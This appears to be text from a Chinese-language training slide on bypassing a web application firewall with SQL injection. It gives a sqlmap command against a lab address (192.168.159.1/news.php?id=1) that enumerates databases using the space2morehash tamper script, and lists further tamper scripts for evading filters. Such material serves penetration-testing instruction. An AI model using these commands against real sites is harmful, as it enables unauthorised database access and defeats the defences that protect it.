

# WAF绕过注入
注入点:http://192.168.159.1/news.php?id=1
sqlmap -u http://192.168.159.1/news.php?id=1 -v 3 --dbs  --batch --tamper "space2morehash.py"
space2hash.py   base64encode.py charencode.py